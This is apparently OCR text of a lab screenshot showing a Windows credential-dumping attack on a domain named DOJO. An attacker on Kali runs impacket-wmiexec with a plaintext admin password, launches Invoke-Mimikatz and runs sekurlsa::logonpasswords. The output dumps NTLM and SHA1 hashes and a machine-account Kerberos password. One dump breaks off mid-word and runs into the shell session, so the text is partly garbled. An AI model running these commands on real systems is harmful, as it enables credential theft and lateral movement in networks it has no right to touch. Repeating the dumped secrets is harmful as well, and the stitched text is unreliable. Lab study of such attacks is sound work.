 Authentication Id : 0 ; 183873 (00000000:0002ce41)
Session           : Service from 0
User Name         : DefaultAppPool
Domain            : IIS APPPOOL
SID               : S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415
	msv :
	 [00000003] Primary
	 * Username : WIN-WEB01$
	 * Domain   : DOJO
	 * NTLM     : 5f5887f2e4e2d51960ef65eb4f62fe3e
	 * SHA1     : b38c42084dac4cd016450ab1d1db4b961655cd8d
	tspkg :
	wdigest :
	 * Username : WIN-WEB01$
	 * Domain   : DOJO
	 * Password : (null)
	kerberos :
	 * Username : WIN-WEB01$
	 * Domain   : dojo.local
	 * Password : Qf!!/xD @^-07#Xp,6O#?j3S+i':I8BC`'6m.9iop"sQll4apG/F<*vGioUXAZ\.@4?X7-O6c^?3#sdjhvxi&B=g4&.JQc(Qp'd@z T0h7NWAE@8ISB=u%0u
	ssp :	KO
	credman :

Authentication Id : 0 ; 42685 (00000000:0000a6bd)
Session           : Interactroot@kali:~/Documents# impacket-wmiexec local_adm:MySuperPasswordDojo/2017@10.0.1.18
Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>powershell.exe Users\local_adm\Desktop\Invoke-Mimikatz.ps1

  .#####.   mimikatz 2.0 alpha (x64) release "Kiwi en C" (Feb 16 2015 22:15:28)
 .## ^ ##.  
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 15 modules * * */


mimikatz(powershell) # sekurlsa::logonpasswords

Authentication Id : 0 ; 26471274 (00000000:0193eb6a)
Session           : Interactive from 0
User Name         : aleslandes
Domain            : DOJO
SID               : S-1-5-21-2776015209-2098307006-2719327015-1110
	msv :
	 [00000003] Primary
	 * Username : aleslandes
	 * Domain   : DOJO
	 * NTLM     : 7c4fe5eada682714a036e39378362bab
	 * SHA1     : 0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb
	 [00010000] CredentialKeys
	 * NTLM     : 7c4fe5eada682714a036e39378362bab
	 * SHA1     : 0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb
	tspkg :
	wdigest :
	 * Username : aleslandes
	 * Domain   : DOJO
	 * Password : (null)